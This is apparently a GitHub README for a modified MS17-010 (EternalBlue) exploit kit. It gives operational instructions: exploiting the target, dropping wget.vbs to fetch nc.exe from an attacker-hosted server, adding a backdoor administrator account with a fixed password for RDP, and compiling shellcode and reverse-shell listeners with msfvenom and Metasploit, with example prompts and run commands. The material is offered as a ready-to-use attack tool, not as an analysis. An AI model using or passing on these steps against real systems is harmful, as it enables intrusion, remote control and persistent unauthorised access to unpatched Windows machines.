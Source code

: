 ########################### Auto Blue Light Special ###########################

It's called Auto Blue Light Special because it's just a modification of AutoBlue and because of a conversation my friend Julien and I were having about the old school K-Mart blue light specials

This is a modification of 3ndG4me's AutoBlue found here: https://github.com/3ndG4me/AutoBlue-MS17-010
I also stole the code to add a user from thel3l: https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a

# What does this script do?
This script exploits MS17-010 then writes wget.vbs to a folder and gives you a limited shell. You can use wget.vbs to transfer a file to the victim (nc.exe or maybe your custom executable) to obtain a not-so-limited shell. It also creates a user and adds that user to the administrators group so you can RDP to the machine.

# Have you tested this?
Only on Windows XP x86. It's only going to work when using the zzz_exploit.py script. You might be able to re-use my code in eternalblue_exploit(7,8,10).py to perform these actions. Maybe, maybe not. I haven't tried. To find my modifications, open zzz_exploit.py and ctrl+f for ReverendShell.

# Why did I modify this script?
I was rooting an XP box and was using AutoBlue because I really like it. It just works. However it gives you a rather limited, non-interactive shell. You can't change directories with this shell, I couldn't echo text to a file and I couldn't copy files from a SMB share (which I don't think is the shell's fault). I needed a better shell but to do that required some way of transferring a file to the victim. I could run cscript but I couldn't echo to a file, hence the modification. With wget.vbs you can download a file you're hosting on, say, a python SimpleHTTPServer. Later on I found thel3l's code to add a user and incorporated it into this script.

# How do I use it?
Follow the directions as written. If everything is successful the output will display which folder the wget.vbs file is in. From there simply issue:
`> cscript c:\foldername\wget.vbs http://your.ip.here:port/ncWin32.exe c:\path\on\victim\ncWin32.exe`

And if you want to RDP to the target after the script is run you can issue:
`# rdesktop -u reverendshell x.x.x.x`
The password will be: haxxx

You may view a demo video here: https://youtu.be/HOvV0utZK_w

########################### Auto Blue Light Special ###########################
####### 

Everything below this line is from the original AutoBlue README #######

# MS17-010 Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion.

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64)

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
